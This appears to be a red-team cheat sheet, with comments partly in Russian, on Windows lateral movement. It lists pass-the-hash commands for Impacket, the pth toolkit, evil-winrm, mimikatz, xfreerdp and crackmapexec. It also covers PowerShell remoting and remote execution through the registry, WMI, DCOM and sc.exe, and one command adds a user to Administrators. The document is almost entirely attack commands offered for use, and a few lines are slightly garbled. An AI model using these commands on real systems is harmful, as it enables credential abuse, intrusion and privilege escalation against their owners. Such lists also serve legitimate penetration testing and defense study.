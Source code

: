 ## Pass the Hash:  
**Impacket and pth**:  
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py; //wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py; //dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis; //wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe; //wmic.exe /user:username /password:s3cr3t /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  
